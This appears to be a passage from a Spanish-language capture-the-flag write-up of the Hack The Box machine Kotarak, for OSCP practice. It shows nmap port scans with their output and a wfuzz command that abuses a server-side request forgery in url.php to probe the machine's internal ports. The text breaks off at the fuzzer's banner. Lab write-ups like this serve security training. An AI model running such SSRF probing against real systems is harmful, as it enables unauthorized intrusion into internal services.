 ```yaml
---
layout: post
title:  "OSCP Path ~ Kotarak de Hack The Box (Necesario VIP)"
description: Writeup de la maquina de HackTheBox llamada KOTARAK siguiendo el PATH para el OSCP
tags: HTB, OSCP Path, SSRF, Tomcat 8.6, Impackect-SecretsDump, Wget Privesc, CRON, Maquinas Retiradas, Writeup, Hacking
---
```


# Kotarak ~ Hack The Box to OSCP

Realizamos el Primer escaneo con Nmap
```bash
$" nmap -p- --open -sS --min-rate 4000 -vvv -n -Pn -oG allports 10.10.10.55       "
``` 
Procedemos con el siguiente escaneo de Nmap
```bash
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e2:d7:ca:0e:b7:cb:0a:51:f7:2e:75:ea:02:24:17:74 (RSA)
|   256 e8:f1:c0:d3:7d:9b:43:73:ad:37:3b:cb:e1:64:8e:e9 (ECDSA)
|_  256 6d:e9:26:ad:86:02:2d:68:e1:eb:ad:66:a0:60:17:b8 (ED25519)
8009/tcp  open  ajp13   Apache Jserv (Protocol v1.3)
| ajp-methods: 
|   Supported methods: GET HEAD POST PUT DELETE OPTIONS
|   Potentially risky methods: PUT DELETE
|_  See https://nmap.org/nsedoc/scripts/ajp-methods.html
8080/tcp  open  http    Apache Tomcat 8.5.5
|_http-favicon: Apache Tomcat
| http-methods: 
|_  Potentially risky methods: PUT DELETE
|_http-title: Apache Tomcat/8.5.5 - Error report
60000/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title:         Kotarak Web Hosting        
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Procedemos a hacer un reconocimiento visual de los servicios `http` en los diferentes puertos encontrados:
```bash
# 1 - http://10.10.10.55:8080/
Apache Tomcat/8.5.5

# 2 - http://10.10.10.55:60000/ 
Encontramos un buscador en el cual intentamos apuntar a la localhost de la maquin por el puerto 22 que sabiamos que estaba abierto.
Vemos que nos responde correctamente  para el puerto 22 que si estaba abierto.
``` 
Probamos a usar la herramienta Wfuzz para fuzzear por el campo que tenemos, nos creamos un diccionario `PortsDicc.txt
```bash
# wfuzz -c --hc=404 --hl=2 -t 200 -w PortsDicc.txt http://10.10.10.55:60000/url.php?path=http://127.0.0.1:FUZZ                       130 ⨯
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.55:60000/url.php?path=http://127.0.0.1:FUZZ
Total requests: 65535
```